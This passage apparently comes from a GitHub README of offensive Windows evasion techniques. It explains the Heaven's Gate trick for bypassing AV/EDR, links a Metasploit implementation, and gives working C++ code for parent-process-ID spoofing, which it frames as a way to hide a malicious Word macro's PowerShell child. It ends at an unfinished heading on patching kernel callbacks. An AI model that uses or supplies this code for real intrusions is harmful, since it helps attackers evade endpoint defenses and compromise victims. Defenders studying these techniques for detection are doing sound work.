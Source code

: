 ## Heavens Gate

Use Wow64 to inject 64 bits payload in 32 bits loader. Can be useful to bypass some AV/EDRs because Wow64 will avoid you to be catch in userland.

The most known version of this technique has been created by the MSF team, see their awesome work here : https://github.com/rapid7/metasploit-framework/blob/21fa8a89044220a3bf335ed77293300969b81e78/external/source/shellcode/windows/x86/src/migrate/executex64.asm


## PPID Spoofing

When a suspicious/anormal process start below a "legit" or unattended process parent, it become very suspicious. Think about a malicious Word macro which deploy a powershell process : such strange, right ?

PPID Spoofing can avoid that by allowing you to modify the parent process id (PPID) of your spawned process.

```cpp
#include <windows.h>
#include <TlHelp32.h>
#include <iostream>

//code from : https://www.ired.team/offensive-security/defense-evasion/parent-process-id-ppid-spoofing
int main() 
{
	STARTUPINFOEXA si;
	PROCESS_INFORMATION pi;
	SIZE_T attributeSize;
	ZeroMemory(&si, sizeof(STARTUPINFOEXA));
	
	HANDLE parentProcessHandle = OpenProcess(MAXIMUM_ALLOWED, false, 6200);

	InitializeProcThreadAttributeList(NULL, 1, 0, &attributeSize);
	si.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, attributeSize);
	InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &attributeSize);
	UpdateProcThreadAttribute(si.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &parentProcessHandle, sizeof(HANDLE), NULL, NULL);
	si.StartupInfo.cb = sizeof(STARTUPINFOEXA);

	CreateProcessA(NULL, (LPSTR)"notepad", NULL, NULL, FALSE, EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, &si.StartupInfo, &pi);

	return 0;
}
```

## Patch Kernel callbacks ⏳
